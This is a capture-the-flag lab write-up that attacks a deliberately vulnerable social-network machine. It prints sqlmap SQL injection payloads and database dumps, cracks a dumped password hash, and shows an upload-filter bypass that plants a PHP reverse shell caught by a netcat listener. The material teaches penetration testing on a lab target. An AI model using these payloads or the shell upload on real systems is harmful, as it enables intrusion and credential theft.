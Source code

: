 # [Day 23] LapLANd (SQL Injection)

Santa’s been inundated with Facebook messages containing Christmas wishlists, so Elf Jr. has taken an online course in developing a North Pole-exclusive social network, LapLANd! Unfortunately, he had to cut a few corners on security to complete the site in time for Christmas and now there are rumours spreading through the workshop about Santa! Can you gain access to LapLANd and find out the truth once and for all?

This machine may take up to 5 minutes to boot and configure.

Supporting material available [here](https://docs.google.com/document/d/15XH_T1o6FLvnV19_JnXdlG2A8lj2QtepXMtVQ32QXk0/edit?usp=sharing).


## #1 - Which field is SQL injectable? Use the input name used in the HTML code.

*Hint: SQLMap will highlight which field is vulnerable, if you decide to use it.*

~~~
$ sqlmap -u http://10.10.182.6/register.php --forms

...[SNIP]...

[16:13:46] [INFO] POST parameter 'log_email' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'log_email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 81 HTTP(s) requests:
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=VSns' AND (SELECT 6301 FROM (SELECT(SLEEP(5)))oCVA) AND 'flbW'='flbW&log_password=&login_button=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: log_email=VSns' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71626b7a71,0x7347484c634b4e6b486c744a5268767867634c5a774d704c6242534d476373626d4464766b614463,0x71716b7171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=&login_button=Login
---
do you want to exploit this SQL injection? [Y/n] 
[16:14:00] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[16:14:00] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/unknown/.sqlmap/output/results-05042020_0411pm.csv'

~~~


## #2 - What is Santa Claus' email address?

*Hint: If your injection is going very slowly, consider enumerating only the information you need instead of trying to dump the whole database.*

Create an account and log in. Capture the log in request with BurpSuite and save the request as `req.txt` (Action > Save item)

~~~
$ sqlmap -r req.txt --current-db

...[SNIP]...

[18:02:59] [INFO] retrieved: social
current database: 'social'
~~~

We have now retrieved the database name: `social`.

Now, let's try to get the list of tables.

~~~
$ sqlmap -r req.txt -D social --tables

...[SNIP]...

Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
~~~

Let's get the columns of the table `users`:

~~~
$ sqlmap -r req.txt -D social -T users --columns

...[SNIP]...

Database: social
Table: users
[12 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| id           | int(11)      |
| password     | varchar(255) |
| email        | varchar(100) |
| first_name   | varchar(25)  |
| friend_array | text         |
| last_name    | varchar(25)  |
| num_likes    | int(11)      |
| num_posts    | int(11)      |
| profile_pic  | varchar(255) |
| signup_date  | date         |
| user_closed  | varchar(3)   |
| username     | varchar(100) |
+--------------+--------------+
~~~

Now, let's execute a SQL query to dump Santa's information.

~~~
$ sqlmap -r req.txt -D social -T users -C id,password,email,username --sql-query "select id,password,email,username from users where username like '%santa%'"

...[SNIP]...

[18:29:26] [INFO] retrieved: 1
[18:29:27] [INFO] retrieved: f1267830a78c0b59acc06b05694b2e28
[18:29:47] [INFO] retrieved: bigman@shefesh.com
[18:29:55] [INFO] retrieved: santa_claus
select id,password,email,username from users where username like '%santa%' [1]:
[*] 1, f1267830a78c0b59acc06b05694b2e28, bigman@shefesh.com, santa_claus
~~~

Santa's email is `bigman@shefesh.com`.


## #3 - What is Santa Claus' plaintext password?

*Hint: It's in rockyou.txt - also try online sites such as HashKiller or Crackstation*

We have gathered Santa's password has in the previous question: `f1267830a78c0b59acc06b05694b2e28`. Googling for this has leads to http://md5this.com/list.php?page=553&key=1&author=ToXiC&country=Cyprus&city=Nicosia:

* Hash: f1267830a78c0b59acc06b05694b2e28
* Plain: saltnpepper


## #4 - Santa has a secret! Which station is he meeting Mrs Mistletoe in?

*Hint: Look at the private messages between users, either through the database or logging in as Santa!*

Now that we have Santa's credentials (email=`bigman@shefesh.com`, password=`saltnpepper`), let's connect as Santa.

Go to Sant'as private message page (http://10.10.245.53/messages.php?u=mommy_mistletoe) to answer the question. Here is the conversation:

~~~
You and Mommy Mistletoe

XSanta, I think my son Michael saw us kissing underneath the misteltoe last night! Meet me under the clock in Waterloo station at Midnight.

XMrs Mistletoe, you're certainly on the naughty list this year! See you there, Kris x
~~~

Answer: `Waterloo`.

## #5 - Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/

*Hint: If you're getting an error about a file format being blacklisted, try looking up alternative file extensions that will still execute.*

Once logged in, let's go to the `home` page (http://10.10.95.45/index.php). From here, we can post a new comment and upload an attachment.

Let's download a PHP reverse shell (http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz). Untar the archive and modify the `php-reverse-shell.php` script:

```php
$ip = '10.9.**.**';  // CHANGE THIS
$port = 9999;        // CHANGE THIS
```

Fire up netcat. When the reverse shell will be uploaded, we should have a shell here.
~~~
$ nc -nlvp 9999
~~~

Then try to upload the reverse shell. Too bad, PHP files are not accepted. Let's use Burp Suite to see if other extensions may be accepted.

Go to Burp Suite > Proxy > HTTP History and right click on the POST request that corresponds to the upload attempt (if Burp was not running, do the attempt again with the `*.php` extension). Send this request to the Intruder module.

!["burp proxy history"](files/burp-proxy-history.png)

Now, in the `Positions` tab, make sure you select `Sniper` from the `Attack type` dropdown, click on the `Clear §` button, highlight the extension from the filename and click on `Add §`. This will tell the Intruder what extensions we will test.

!["burp intruder positions"](files/burp-intruder-positions.png)

Now, go to the `Payloads` tab, and in the `Payload Options` section, add some extensions to the list (`php`, `php4`, `php5`, `phtml`, ...). When done, click on the `Start Attack` button.

!["burp intruder payloads"](files/burp-intruder-payloads.png)

Once the attack is complete, you are presented with the following results:

!["burp intruder results"](files/burp-intruder-results.png)

Notice that you can assess the allowed extensions based on the size of the response. Now, we know that only the `*.php` extension was forbidden. Let's rename our reverse shell script:

~~~
$ mv php-reverse-shell.php php-reverse-shell.php4
~~~

Upload the script and check your netcat listener. You have a shell:

~~~
$ nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.95.45 45642 received!
Linux server 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:11:20 up 18 min,  0 users,  load average: 0.02, 0.14, 0.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /home/user/flag.txt

...[SNIP]...

THM{SHELLS_IN_MY_EGGNOG}
~~~

Answer: `THM{SHELLS_IN_MY_EGGNOG}`
